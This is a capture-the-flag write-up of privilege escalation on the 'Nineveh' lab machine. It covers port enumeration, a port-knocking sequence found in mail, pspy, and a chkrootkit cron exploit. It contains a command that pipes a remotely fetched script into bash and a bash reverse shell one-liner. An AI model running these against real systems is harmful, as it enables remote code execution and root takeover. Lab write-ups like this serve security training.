





# 20 - PrivEsc


# Open ports

```
www-data@nineveh:/tmp/tmp.WsFy9Fi5NY$ ss -ltn
State       Recv-Q Send-Q                                                                         Local Address:Port                                                                                        Peer Address:Port              
LISTEN      0      128                                                                                        *:80                                                                                                     *:*                  
LISTEN      0      128                                                                                        *:22                                                                                                     *:*                  
LISTEN      0      128                                                                                        *:443                                                                                                    *:*                  
LISTEN      0      128                                                                                       :::22                                                                                                    :::*                  
```

This is peculiar because there is ssh server running on port 22 but we couldn't see it on our nmap scan.


# email

```sql
www-data@nineveh:/var/mail$ cat amrois 
From root@nineveh.htb  Fri Jun 23 14:04:19 2017
Return-Path: <root@nineveh.htb>
X-Original-To: amrois
Delivered-To: amrois@nineveh.htb
Received: by nineveh.htb (Postfix, from userid 1000)
        id D289B2E3587; Fri, 23 Jun 2017 14:04:19 -0500 (CDT)
To: amrois@nineveh.htb
From: root@nineveh.htb
Subject: Another Important note!
Message-Id: <20170623190419.D289B2E3587@nineveh.htb>
Date: Fri, 23 Jun 2017 14:04:19 -0500 (CDT)

Amrois! please knock the door next time! 571 290 911
```

There is a number at the end of the email but let's keep doing our enumeration


# What is knockd?


Now email makes sense a bit, root was referring to the knockd service, let's check if there is a client for the daemon

# Knock client

```sql
www-data@nineveh:/home/amrois$ knock 
usage: knock [options] <host> <port[:proto]> [port[:proto]] ...
options:
  -u, --udp            make all ports hits use UDP (default is TCP)
  -v, --verbose        be verbose
  -V, --version        display version
  -h, --help           this help

example:  knock myserver.example.com 123:tcp 456:udp 789:tcp
```

[This](https://www.techrepublic.com/article/how-to-obscure-open-ports-with-knockd/) article explains knockd very well. So in order for us to talk to the hidden ssh server from our host machine we need to knock the server first.

```bash
$ sudo apt install knockd
$ knock nineveh.htb 571 290 911 # This number is from the email
$ ssh nineveh.htb # now it should work but unfortunately we don't have any credentials yet.
```

# [pspy](https://github.com/DominicBreuker/pspy)

After running linpeas.sh and manually going through the configuration files in /var/www/ for a password I couldn't find anything, there is another tool named pspy it allows you to see commands run by other users, cron jobs, etc. as they execute. Let's give it a shot



After giving it a minute or so I quickly noticed chkrootkit, no read write permission on it. It is a tool to reveal known rootkits.


# Searchsploit





# Exploit 


There is a cronjob for the second step so all we need is an update file

```bash
echo "curl 10.10.14.9/shell.sh | bash" > /tmp/update
chmod +x /tmp/update
```


# shell.sh

```bash
bash -i >& /dev/tcp/$IP/9001 0>&1
```

# Root shell


